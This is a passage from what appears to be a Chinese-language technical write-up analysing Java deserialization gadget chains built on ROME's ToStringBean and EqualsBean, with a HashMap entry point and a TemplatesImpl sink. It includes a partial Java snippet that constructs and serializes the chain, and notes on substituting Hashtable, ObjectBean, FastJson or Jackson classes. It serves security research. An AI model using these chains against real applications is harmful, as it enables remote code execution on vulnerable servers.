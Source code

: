 代码如下

```plain
ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);
        Object templatesimpl = null;

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("obj"); // 低版本（如1.0）此属性名为 _obj
        field.setAccessible(true);
        field.set(toStringBean,templatesimpl);
        serialize(hashMap);
        unserialize("ser.bin");
```

调用栈如下  
[![](assets/1701606907-a594ea272ba561932aff12b07b2bf83b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210100-38300912-6ced-1.png)

另外这条链很多地方都可以替换

*   由于是在 HashMap 中调用 key.hashCode() 作为入口，所以入口类 HashMap 可以换成 Hashtable
*   `ObjectBean.hashCode()`中会调用`EqualsBean.beanHashCode() = EqualsBean.hashCode()` 因此可以用 ObjectBean 替换 EqualsBean

### 中间部分

`FastJson的JSONObject类 或 Jackson的POJONode类 或 ROME的ToStringBean类`中放好目标类即可

### toString()->sink

#### TemplatesImpl#getOutputProperties

**JDK 原生可用**

这条链早在 CC 和 CB 中就用到过，故不多作介绍

三组件均可用，但结合**Rome、Jackson**使用时需要一些特殊处理，详见后文

